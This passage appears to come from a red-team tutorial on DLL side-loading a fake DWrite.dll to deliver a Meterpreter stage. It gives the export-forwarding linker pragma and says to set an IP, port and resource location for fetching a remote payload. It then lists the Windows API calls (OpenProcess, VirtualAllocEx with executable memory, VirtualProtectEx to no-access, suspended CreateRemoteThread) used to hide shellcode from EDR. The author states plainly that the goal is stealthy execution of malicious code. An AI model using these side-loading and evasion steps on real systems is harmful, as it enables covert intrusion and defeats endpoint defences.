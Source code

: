 While we aim to replicate the implementation in its entirety, it's crucial to maintain a specific directive to ensure the correct loading of the DLL. The directive in question is a compiler command that ensures our custom DLL properly references the original `DWriteCreateFactory` function from the genuine `DWrite.dll` located in the system directory:

```cpp
#pragma comment(linker,"/export:DWriteCreateFactory=C:\\Windows\\System32\\DWrite.DWriteCreateFactory,@1")
```

In addition to incorporating this directive, it's necessary to define variables for the IP address, port, and resource location. These adjustments are essential for the successful execution and integration of our custom DLL, ensuring it operates as intended without drawing undue attention or causing disruptions to the application or system it integrates with.

In our custom DLL, rather than relying on a traditional main function for execution, we implement our code to execute upon the DLL's attachment to a process. This approach utilizes the DLL entry point, a standard method for initializing code in DLLs, to trigger our payload as soon as the DLL is loaded by the host application.

This technique capitalizes on the dynamic nature of DLLs, allowing for the execution of our code in the context of the host application without requiring explicit calls from the application itself. By hooking into the DLL attachment process, we ensure that our code is executed seamlessly, blending into the normal operation of the application and reducing the likelihood of detection.

This strategy is particularly effective for stealth operations, as it leverages the normal loading and execution patterns of applications to introduce and execute malicious code. It's a sophisticated method of ensuring that our payload is delivered and executed under the radar, making it a critical component of our approach to DLL hijacking and side-loading.

![figure 13: Execute the loading and execution of the sideloaded payload](013-dll-execute-on-attach.png)  
figure 13: Execute the loading and execution of the sideloaded payload

The execution obfuscation technique detailed below is crafted to ensure that our Meterpreter stage remains undetectable by Endpoint Detection and Response (EDR) systems within the system's memory.
![figure 14: Shellcode execution ](014-shellcode-execution.png)  
figure 14: Shellcode execution 
  
This implementation unfolds through a sequence of meticulously executed steps:

1. **Process Handle Acquisition**: Initiate by obtaining a handle to the target process, using `GetCurrentProcessId` for identification, followed by `OpenProcess` to open the process.
   `HANDLE processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, GetCurrentProcessId());

2. **Memory Allocation**: Allocate a memory segment within the target process using `VirtualAllocEx`, specifying the size and permissions suitable for executing the payload.
   `PVOID remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof recvbuf, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

3. **Adjusting Memory Protection**: Modify the protection of the allocated memory to `PAGE_NO_ACCESS` with `VirtualProtectEx`, effectively making it invisible to antivirus scans and write-protected.
   `VirtualProtectEx(processHandle, remoteBuffer,sizeof recvbuf, 0x01, NULL);

4. **Suspended Thread Creation**: Create a suspended thread within the target process space using `CreateRemoteThread`, ensuring it remains inactive until specifically resumed.
   `HANDLE remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0x00000004, NULL);
